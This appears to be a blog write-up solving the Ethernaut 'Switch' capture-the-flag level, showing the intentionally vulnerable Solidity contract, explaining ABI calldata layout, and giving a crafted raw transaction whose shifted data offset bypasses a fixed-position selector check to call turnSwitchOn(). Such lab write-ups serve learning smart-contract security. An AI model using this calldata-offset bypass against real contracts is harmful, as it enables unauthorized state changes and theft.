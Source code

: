 ```yaml
---
title: Ethernaut - Switch - Solution
date: '2024-06-13'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Switch CTF
---
```


# Ethernaut - Switch - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Switch {
    bool public switchOn; // switch is off
    bytes4 public offSelector = bytes4(keccak256("turnSwitchOff()"));

    modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }

    modifier onlyOff() {
        // we use a complex data type to put in memory
        bytes32[1] memory selector;
        // check that the calldata at position 68 (location of _data)
        assembly {
            calldatacopy(selector, 68, 4) // grab function selector from calldata
        }
        require(selector[0] == offSelector, "Can only call the turnOffSwitch function");
        _;
    }

    function flipSwitch(bytes memory _data) public onlyOff {
        (bool success,) = address(this).call(_data);
        require(success, "call failed :(");
    }

    function turnSwitchOn() public onlyThis {
        switchOn = true;
    }

    function turnSwitchOff() public onlyThis {
        switchOn = false;
    }
}
```

## Solution

The goal of this challenge is to set the `switchOn` boolean to `true`.
In other words, we need to find a way to call the `turnSwitchOn()` function.
Notice that we can't call this function directly because of the `onlyThis()` modifier.
Instead, we need to construct an appropriate call to `flipSwitch()`.

The naive attempt of executing 

```javascript
await contract.flipSwitch("0x76227e12") // 0x76227e12 is the selector of turnSwitchOn()
```

won't work either because of the `onlyOff()` modifier.

Let us investigate this in more detail by calling `turnSwitchOff()` through `flipSwitch()` and taking a closer look at how the calldata is structured:

```javascript
await contract.flipSwitch("0x20606e15") // 0x20606e15 is the selector of turnSwitchOff()
```

Inspecting the resulting transaction on Etherscan in the "More Details" section, we get the following calldata structure:

```
Function: flipSwitch(bytes _data) ***

MethodID: 0x30c13ade
[0]:  0000000000000000000000000000000000000000000000000000000000000020
[1]:  0000000000000000000000000000000000000000000000000000000000000004
[2]:  20606e1500000000000000000000000000000000000000000000000000000000
```

The first four bytes are 0x30c13ade, which is the function selector of `flipSwitch()`.
Since the `_data` parameter has the _dynamic_ datatype `bytes`, the next 32 bytes are to be interpreted as the location of the data part of the function parameter.
20 in hex is 32 in decimal, telling us that the actual data part of the function parameter starts at position 32 (ignoring the first four bytes of the calldata that correspond to the function selector).
From the [official Formal Specification of ABI Encoding](https://docs.soliditylang.org/en/latest/abi-spec.html#formal-specification-of-the-encoding), we know that `[1]` is the number of bytes encoded as a `uint256` (in our case, 4 bytes) while `[2]` represents the actual value of the byte sequence (in our case, 20606e15).

Now that we have a better picture of the calldata, let's discuss how we can manipulate it to solve the level:
Notice that `[2]` needs to stay intact since the `onlyOff()` modifier requires the `offSelector` to be present at position 68.
However, we can add two more words that direct the call to `turnSwitchOn()` instead of `turnSwitchOff()` and, at the same time, manipulate `[0]` so that the location of the data part is 96 (0x60) instead of 32 (0x20):

```
Function: flipSwitch(bytes _data) ***

MethodID: 0x30c13ade
[0]:  0000000000000000000000000000000000000000000000000000000000000060
[1]:  0000000000000000000000000000000000000000000000000000000000000004
[2]:  20606e1500000000000000000000000000000000000000000000000000000000
[3]:  0000000000000000000000000000000000000000000000000000000000000004
[4]:  76227e1200000000000000000000000000000000000000000000000000000000
```

This way, `[1]` and `[2]` will be ignored for the actual function call yet the `offSelector` will be present at position 68, allowing us to successfully pass the `onlyOff()` modifier while still making the call to `turnSwitchOn()` via `[3]` and `[4]`.

As a conclusion, we can solve the level by issuing the following command in the Ethernaut console:

```javascript
await sendTransaction({from: "<your player address>", to: '<your level instance address>', input: "0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000420606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000"})
```
